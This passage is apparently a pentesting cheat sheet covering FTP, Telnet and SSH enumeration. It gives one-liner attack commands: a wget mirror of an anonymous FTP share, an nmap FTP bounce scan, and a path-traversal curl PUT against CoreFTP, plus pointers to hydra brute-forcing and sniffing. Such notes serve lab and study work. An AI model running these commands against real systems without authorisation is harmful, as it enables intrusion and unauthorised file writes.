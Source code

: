   ```bash
  wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136
  ```

- If TLS/SSl encryption is present, to get the certificate:

  ```bash
  openssl s_client -connect [IP] -starttls ftp
  ```

  This will also show the SSL certificate

- netcat/telnet

#### Exploit:

- File upload
  - LFI
  - with web servers, it is common that files are synchronized

- sniffing with tcpdump 

- Bounce attack

  It is a way to get nmap access a local server (that you cannot scan with nmap) through an exposed ftp server

  ```bash
  nmap -Pn -v -n -p80 -b [user]:[pass]@[EXPOSED SERVER] [LOCAL SERVER]
  ```

- CoreFTP 

  Allows an HTTP `PUT` request, which we can use to write content to files. 

  ```bash
  curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
  ```

**vsFTPd Configuration**

- The default configuration of vsFTPd can be found in `/etc/vsftpd.conf`
- Possible settings: [man page](http://vsftpd.beasts.org/vsftpd_conf.html).
- `/etc/ftpusers` is used to deny certain users access to the FTP service.

### 23 - Telnet

It is a shell (old ssh)

-  nmap is enough for enumeration
- hydra to bruteforce
- To connect: `telnet [IP]`

### 22 - SSH

#### Generalities

- **Type:** authentication
